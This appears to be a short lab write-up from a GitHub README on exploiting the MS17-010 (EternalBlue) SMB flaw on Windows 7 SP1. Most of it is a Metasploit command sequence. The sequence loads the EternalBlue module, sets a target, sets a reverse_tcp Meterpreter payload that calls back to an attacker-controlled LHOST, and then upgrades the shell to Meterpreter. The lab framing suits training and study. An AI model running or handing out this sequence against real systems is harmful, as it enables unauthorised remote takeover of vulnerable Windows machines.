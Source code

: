 
# EternalBlue MS17-010 Exploit Lab

### Lab Summary
This lab demonstrates exploitation of the MS17-010 SMB vulnerability (EternalBlue) on a Windows 7 system, gaining a remote shell and upgrading it to a Meterpreter session.

---

### Environment
- Target IP: <target-ip>
- Target OS: Windows 7 SP1 (version 6.1.7601)  
- Attacker machine running Metasploit Framework (msf6)

---

### Steps Taken

1. **Start Metasploit**  

   Open terminal and run:

   ```bash
   msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
run
sessions
use post/multi/manage/shell_to_meterpreter
set SESSION <session-id>
run

 
